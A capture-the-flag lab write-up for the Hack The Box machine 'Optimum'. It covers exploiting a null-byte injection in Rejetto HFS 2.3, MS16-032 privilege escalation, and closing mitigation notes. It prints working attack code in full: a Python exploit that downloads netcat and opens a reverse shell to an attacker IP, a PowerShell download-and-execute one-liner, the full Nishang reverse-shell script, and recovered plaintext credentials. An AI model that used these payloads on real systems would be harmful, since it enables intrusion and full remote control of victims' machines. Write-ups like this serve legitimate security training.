


# Optimum

Start off with nmap as usual. -sV shows us the versions, and -sC runs default scripts.

```
kali@kali:~/htb/Optimum$ sudo nmap -sV -sC 10.129.1.127
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-20 06:40 EST
Nmap scan report for 10.129.1.127
Host is up (0.028s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.26 seconds
```

So we got a http file server here. Just heading there in the browser 



This screams for a file upload, which we can then use to reverse-shell.

There is a login here. And also a link to rejetto https file server. So I guess that's what is powering it. And it’s Rejetto Https file server 2.3, let's check searchsploit:

```
kali@kali:~/htb/Optimum$ searchsploit Rejetto
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)                                                                                                        | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities                                                                                                             | windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                                                                | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                                                           | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                                           | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                                                                      | windows/webapps/34852.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Seems good.  I decided to try out the metasploit exploit first. If it works, I’ll remake it in python.

It does work. I run the “shell” command in meterpreter to get the windows shell, which allows me to use some other commands. (Just type exit to get back to meterpreter).

I run the following command to get the OS name and version:

```
C:\Users\kostas\Documents>systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
```

I uploaded winPEAS.exe to the server and checked if I could find anything interesting. I did find a username and password:

DefaultUserName              :  35mkostas
DefaultPassword               :  kdeEjDowkS*

But it did not lead to anything.

I also tried PowerUp, but powershell did not play nice with me. After trying some uploading, I restored to Google.


I google “windows server 2012 privilege escalation exploit” And find this:
https://www.exploit-db.com/exploits/39719

Along with some other exploits I tried, you can see I tried the hwnd_broadcast exploit right before this one. 

```
msf6 exploit(windows/local/ms13_005_hwnd_broadcast) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > options

Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.50.111   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set SESSION 2
SESSION => 2
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.14.21
LHOST => 10.10.14.21
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.21:4444 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\zIErSTZR.ps1...
[*] Compressing script contents...
[+] Compressed size: 3596
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2524

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2520
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PlcSJ12VXrFA5zcJOyn31MqvPgYfjH9V
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.129.1.127
[*] Meterpreter session 3 opened (10.10.14.21:4444 -> 10.129.1.127:49163) at 2021-01-20 09:27:08 -0500
[+] Deleted C:\Users\kostas\AppData\Local\Temp\zIErSTZR.ps1

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

So let’s see if we can turn this into a python script. I am using https://www.exploit-db.com/exploits/39161 as the baseline. As this is what the metasploit exploit is based on.

This is the python script:

```
import urllib2
import sys


def script_create():
    urllib2.urlopen("http://10.129.1.127:80/?search=%00{.+"+save+".}")

def execute_script():
    urllib2.urlopen("http://10.129.1.127:80/?search=%00{.+"+exe+".}")

def nc_run():
    urllib2.urlopen("http://10.129.1.127:80/?search=%00{.+"+exe1+".}")

ip_addr = "10.10.14.21" #local IP address
local_port = "443" # Local Port number

"""
C:\Users\Public\script.vbs|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with
"""

vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
save= "save|" + vbs

# cscript.exe C:\Users\Public\script.vbs
vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
exe= "exec|"+vbs2
# "C:\Users\Public\nc.exe -e cmd.exe " ip_addr " " local_port
vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
exe1= "exec|"+vbs3
script_create()
execute_script()
nc_run()
```

I decoded the URL strings to make it easier to read. 

The idea of this exploit is that the search function is not properly sanitized. So we can add a null-byte `%00` at the beginning to escape the sanitization. In addition to this we have to understand how to send code after the escape. 

https://portswigger.net/blog/null-byte-attacks-are-alive-and-well has a great explanation of how null bytes work.

`%00` Essentially marks the end of the string. So when the sanitization regex sanitizes the input, it does not change anything after the null-byte.

We can see how the Rejetto scripting works here: https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands 


In addition we need to run a webserver to upload netcat, and listen for a connection.

```
kali@kali:~$ sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

And:

```
kali@kali:~$ sudo nc -nlvp 443
Listening on 0.0.0.0 443
```



Running powershell directly does not work. But running it from the shell with commands behind it works fine:

```
C:\Windows\SysNative\WindowsPowerShell\v1.0>powershell.exe ping 10.10.14.21
powershell.exe ping 10.10.14.21

Pinging 10.10.14.21 with 32 bytes of data:
Reply from 10.10.14.21: bytes=32 time=27ms TTL=63
Reply from 10.10.14.21: bytes=32 time=28ms TTL=63
Reply from 10.10.14.21: bytes=32 time=27ms TTL=63
Reply from 10.10.14.21: bytes=32 time=29ms TTL=63

Ping statistics for 10.10.14.21:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 27ms, Maximum = 29ms, Average = 27ms

C:\Windows\SysNative\WindowsPowerShell\v1.0>
```

C:\Windows\SysNative\WindowsPowerShell\v1.0 makes sure that we are running x64 binaries.

And to confirm that it worked correctly:

```
kali@kali:~/Downloads$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
12:57:21.896877 IP 10.129.1.127 > 10.10.14.21: ICMP echo request, id 1, seq 1, length 40
12:57:21.896895 IP 10.10.14.21 > 10.129.1.127: ICMP echo reply, id 1, seq 1, length 40
12:57:22.910187 IP 10.129.1.127 > 10.10.14.21: ICMP echo request, id 1, seq 2, length 40
12:57:22.910205 IP 10.10.14.21 > 10.129.1.127: ICMP echo reply, id 1, seq 2, length 40
12:57:23.925849 IP 10.129.1.127 > 10.10.14.21: ICMP echo request, id 1, seq 3, length 40
12:57:23.925869 IP 10.10.14.21 > 10.129.1.127: ICMP echo reply, id 1, seq 3, length 40
12:57:24.941937 IP 10.129.1.127 > 10.10.14.21: ICMP echo request, id 1, seq 4, length 40
12:57:24.941954 IP 10.10.14.21 > 10.129.1.127: ICMP echo reply, id 1, seq 4, length 40
```

So now we need to find the MS16-032 exploit. There are tons lying around. 

The important part of the code is around line 330 on most of the scripts I could find.

```
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
		$CallResult = [Advapi32]::CreateProcessWithLogonW(
			"user", "domain", "pass",
			0x00000002, "C:\Windows\System32\cmd.exe", "",
			0x00000004, $null, $GetCurrentPath,
			[ref]$StartupInfo, [ref]$ProcessInfo)
```

`0x00000002, "C:\Windows\System32\cmd.exe", "",` Opens up a cmd window on the remote computer with administrator privileges.

We can change this to run what we want. The first part is what executable we want to run, and the second is the parameters we pass.

So we can change the first part to `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

And we will run a powershell. And we can send commands like 

"iex(New-Object Net.WebClient).DownloadString('http://10.10.14.21:80/PowerShellScript.ps1')"

Here we can upload and execute a Ps1 script directly from the exploit. This can be a reverse shell for example. Or maybe something to create a new administrator account to access.

In this instance I just sent a reverse TCP powershell script. I just used a Nishang script.

```
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.21 -Port 1337
```

So the exploit will download and run this script once it is done. And I receive the shell on the listener. Remember that I am still running the python webserver to upload these.

```
C:\Users\kostas\Desktop>C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.21/Invoke-MS16032.ps1')
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.21/Invoke-MS16-032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1572

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1176
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!


C:\Users\kostas\Desktop>
```

And on our listener:

```
kali@kali:~/Downloads$ sudo rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.127 49383
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
nt authority\system
```


## Comparing to the official writeup:

The official writeup used the same exploits I did. They used metasploit the entire way. And it was fairly simple.

I am very happy that I decided to explore the exploits further. As it greatly increased my knowledge of powershell scripting, and a very cool windows exploit. As well as null bytes to exploit bad sanitization of input. 

## How to stop this exploit:

Make sure everything is updated. And make sure that the sanitization functions also account for null-bytes. This was fixed in Rejetto HFS Version 2.3c

The Windows exploit has a patch here: https://support.microsoft.com/en-hk/help/3143141/ms16-032-security-update-for-secondary-logon-to-address-elevation-of-p 
